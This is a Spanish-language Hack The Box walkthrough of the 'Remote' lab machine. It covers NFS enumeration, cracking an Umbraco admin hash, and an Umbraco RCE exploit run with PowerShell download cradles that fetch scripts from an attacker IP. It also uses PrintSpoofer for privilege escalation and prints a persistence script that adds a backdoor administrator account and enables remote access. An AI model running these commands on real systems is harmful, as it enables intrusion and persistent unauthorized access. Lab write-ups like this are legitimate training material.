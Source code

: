 ```yaml
---
layout: single
title: Remote - Hack The Box
excerpt: "Hoy nos enfrentamos contra la máquina remote, es una máquina calificada con dificultad fácil. Contiene una mala configuración con la que nos deja acceder a información privilegiada de la máquina. Luego la escalada de privilegios es bastante sencilla."
date: 2022-09-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-remote/remote_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - Rce
  - Misconfiguration
  - SeImpersonatePrivilege
  - NFS
---
```


![](/assets/images/htb-writeup-remote/remote_logo.png)

La máquina de hoy consiste en una mala configuración que deja expuesto una carpeta web del sistema. Gracias a dicha carpeta logramos extraer la versión de la aplicación y la contraseña de admin. Después la escalada consiste a través de un SeImpersonatePrivilege que consiste en poder ejecutar cualquier comando como nt authority.


## Enumeracion
Comenzamos con un nmap.
```rb
nmap -sCV -p21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 10.10.10.180 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 11:41 -03
Nmap scan report for 10.10.10.180
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-13T14:42:22
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.23 seconds
```

En el escaneo de nmap logramos ver el servicio rpcbind, con la herramienta showmount podemos ver una montura expuesta por una mala configuración del sistema.
```bash
showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
Con mount procedemos a crear una montura para extraer todos los archivos del directorio a nuestro sistema.

![](/assets/images/htb-writeup-remote/montura.png)

Gracias a la montura identificamos que estamos contra un umbraco, generalmente el servicio web umbraco contiene un archivo llamado umbraco.sdf que ahí contiene contraseñas cifradas, lo buscamos y procedemos a tirarle un strings y buscamos por la palabra admin y encontramos esto. Luego mediante un archivo txt sacamos la versión de umbraco.

![](/assets/images/htb-writeup-remote/hash.png)

Procedemos a crackear la contraseña con john y vemos que la contraseña decifrada es baconandcheese.

## Rce y elevacion de privilegios.
Nos descargamos un exploit para la version 7.12.4 de umbraco y logramos ejecutar comandos.

![](/assets/images/htb-writeup-remote/rce.png)

Ahora que podemos ejecutar cualquier comando procedemos a crearnos una reverse shell.

```bash
python3 49488.py -u 'admin@htb.local' -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Shell.ps1')"
```

Una vez adentro del sistema, ejecutamos un whoami /priv y vemos que tiene el privilegio SeImpersonatePrivilege.

![](/assets/images/htb-writeup-remote/elevacion-de-privilegios.png)

Accionarle dicho permiso al usuario consiste en un grabe error, ya que gracias al permiso podemos llegar a ejecutar comandos como nt authority. Procedemos a descargarnos PrintSpoofer64.exe lo que el binario hace es que podamos ejecutar comandos.

![](/assets/images/htb-writeup-remote/administrator.png)

Para poder tener  una shell como administrator nos creamos un simple script en powershell que se encarga de crear un usuario y modifica las reglas de windows para poder acceder a dicho usuario mediante evil-winrm, con este simple comando bastaría.

```powershell
.\PrintSpoofer64.exe -i -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/persistence.ps1')"
```

```powershell

function persistence($user,$password) {
     net user $user $password /add |out-null #Añade un usuario
     net localgroup administrators $user /add |out-null #Agrega al grupo administrator
     reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4 |out-null  
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f |out-null
     reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f |out-null # Modifica las reglas de windows para que podamos acceder remotamente.
     net localgroup "Remote Management Users" $user /add |out-null # Lo agrega a un grupo en lo cual nos permite ingresar remotamente.
     echo "Successful";
    exit 0 # Salida exitosa
  }

  
persistence("cxdxnt","pwned123456#!@") #Usuario y contraseña
```
